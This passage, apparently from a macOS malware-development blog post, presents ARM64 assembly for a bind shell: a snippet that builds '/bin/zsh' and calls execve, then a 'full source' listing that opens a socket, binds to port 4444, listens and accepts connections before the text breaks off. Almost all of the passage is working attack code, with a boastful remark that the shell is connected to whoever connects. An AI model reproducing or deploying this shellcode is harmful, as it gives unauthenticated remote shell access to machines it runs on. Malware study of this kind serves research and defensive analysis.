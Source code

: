 ```nasm
mov     x3, #0x622f          ; '/b'
movk    x3, #0x6e69, lsl#16  ; 'in'
movk    x3, #0x7a2f, lsl#32  ; '/z'
movk    x3, #0x6873, lsl#48  ; 'sh'
stp     x3, xzr, [sp,#-16]!
add     x0, sp, xzr          ; x0 = pointer to path
```

Build `argv`:    

```nasm
stp     x0, xzr, [sp,#-16]!  ; argv = ["/bin/zsh", NULL]
add     x1, sp, xzr          ; x1 = argv
mov     x2, xzr              ; envp = NULL
mov     x16, #59             ; syscall: execve
svc     #0xffff
```

So, by this logic, boom!! Our `/bin/zsh` is running and connected to whoever hit our bind shell.     

Full source code:    

```nasm
; hack.s
; bind shell ARM
; author: @cocomelonc
; https://cocomelonc.github.io/macos/2025/09/01/malware-mac-11.html
.global _start

.align 4
.section __TEXT,__text

_start:
  ; socket descriptor
  ; int socket(int domain, int type, int protocol)
  mov    x0, #2      ; domain = PF_INET
  mov    x1, #1      ; type = sock_stream
  mov    x2, xzr     ; protocol ipproto_ip

  mov    x16, #97    ; bsd syscall for socket (97)
  svc    #0xffff     ; exec syscall

  mov    x19, x0     ; save socket descriptor

  ; bind socket to local address
  ; int bind(int socket, const struct sockaddr_in *address, socklen_t address_len)
  mov    x2, #16                 ; address len (16 bytes)
  mov    x4, #0x0200             ; sin_len = 0, sin_family = 2
  movk   x4, #0x5c11, lsl#16     ; sin_port = 4444 = 0x115c
  stp    x4, xzr, [sp, #-16]!    ; push sockaddr_in to stack
  mov    x1, sp                  ; pointer to sockaddr_in struct
  mov    x16, #104               ; bsd syscall for bind (104)
  svc    #0xffff                 ; exec syscall

  ; listen incoming connections
  ; int listen(int socket, int backlog)
  mov    x0, x19           ; restore saved socket descriptor
  mov    x1, xzr           ; ingore address storage
  mov    x16, #106         ; bsd syscall for listen (106)
  svc    #0xffff           ; exec syscall

  ; accept incoming connections
  ; int accept(int socket, struct sockaddr *address, socklen_t *address_len)
  mov    x0, x19          ; restore saved socket descriptor
  mov    x1, xzr          ; ingore address storage
  mov    x2, xzr          ; ignore length of address struct
```